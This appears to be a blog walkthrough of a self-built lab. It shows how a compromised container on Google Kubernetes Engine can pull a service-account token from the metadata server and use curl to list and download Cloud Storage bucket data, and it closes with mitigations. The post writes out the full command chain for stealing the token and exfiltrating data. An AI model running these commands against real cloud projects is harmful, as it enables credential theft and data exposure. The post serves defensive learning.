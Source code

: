 # Your GKE deployment and metadata - buckets

How hard is it to dump data from Google Cloud Project storage, if it's running a vulnerable container image? Very easy! Read on for a walk through.

If you've read Gitlab's excellent report on "Plundering Google Cloud"[[1]](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
you may be wondering, does it apply to Kubernetes and GKE? After all, the article seems to focus on compute engine VMs. GKE is a totally different beast right? Also it mentions early on about being able to read bucket contents from compute engine VM. But we are not just giving the attackers the VM/credentials, not deploying privileged images and keep our GKE deployment up to date.

### Lab setup
To simulate a compromised container I deployed [openSSH-server](https://github.com/linuxserver/docker-openssh-server) on a GKE cluster
and exposed it to the internet so I can access it. I configured a user "toto", with sudo privileges (although I won't be using them yet).
There are no intentional misconfigurations or out of date software[2]*

![lab image](https://eqqn.github.io/images/doc2.png)


### Discovery and metadata
Taking a page from the pentest workflows, we query the metadata server.

`curl "http://metadata.google.internal/computeMetadata/v1/?recursive=true&alt=text" -H "Metadata-Flavor: Google"`

This gives a lot of information and is a lot to proccess. 

To narrow it down, we want to look at the access scopes available to our instance.

`curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes -H 'Metadata-Flavor:Google' `

![Access scopes](https://eqqn.github.io/images/gke_access_scopes.png)

IF we have devstorage.read permissions it means we can read storage on our project.

Now since our storage is not public ( otherwise we wouldn't be doing this ), we need to authenticate ourselves against the google storage APIs.
Thats where metadata service steps in, providing us a Token that allows us to call google APIs on behalf of the instance. 

`curl "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token" -H "Metadata-Flavor: Google"`

To discover the names of the storage objects, we can query the google storage API with the token we procured. We will need the project name we found in metadata dump.

`curl -H "Authorization: Bearer <<TOKEN>>" "https://storage.googleapis.com/storage/v1/b?project=<<PROJECT_NAME>>"`

![Bucket Data](https://eqqn.github.io/images/bucket_data.png)

One of the objects is the bucket I created `****test`

If we query the object, it will reveal the files inside it :

`curl -H "Authorization: Bearer <<TOKEN>" "https://storage.googleapis.com/storage/v1/b/<<OBJECT_NAME>>/o" `

We see the file "bucketfile.txt", so lets grab it using curl:

`curl -X GET -H "Authorization: Bearer <<TOKEN>>" -o "bucketfile.txt" "https://www.googleapis.com/storage/v1/b/<<OBJECT_NAME>>/o/bucketfile.txt?alt=media"`

![Bucket Contents](https://eqqn.github.io/images/bucket_data_contents.png)  

( the file contents is "my secret bucket data" string) 

### Summary

Provided there is a vulnerable container in a deployment, you can dump all the bucket data in the project.

No container escapes, privilege escalation involved. It does need at least a backdoor, RCE, or SSRF class vulnerability to get the auth token.

Also there is no restrictions on callers origin when calling storage endpoint - with the instance token you can call storage from anywhere.
So you can make a nice script to dump all buckets in the project recursively.

You don't need access to *gcloud*, *gsutil* or other CLI utilities on the container - once you *curl* the token, you can continue the work on your machine.
This is useful when you have read-only filesystems, no write access , etc.

### Mitigations (?)
Partial mitigation exists, like fine-grained access rights on bucket ( are you using them?). You can also restrict the access rights for the 
node pool, by adding a service account to it with a different set of permissions. [[3]](https://cloud.google.com/kubernetes-engine/docs/how-to/protecting-cluster-metadata)

Workload identity is another candidate [[4]](https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity) and requires extensive setup.

Google is also beta-testing "Auto-pilot clusters" where they take over the heavy lifting in terms of hardening. 

So the last few mitigations might be a necessary evil, if you don't want to leak all your secrets thanks to a single access token. I have yet to test how well they work.

References and comments: 
[1] https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/

[2] It's synthetic, but you don't want to deploy actually vulnerable applications on your cloud :) Yes, it's easier to just 
SSH via CLoudShell to the container, but you lose benefit of testing low privilege user and ingress/egress network connections

[3] https://cloud.google.com/kubernetes-engine/docs/how-to/protecting-cluster-metadata

[4] https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity

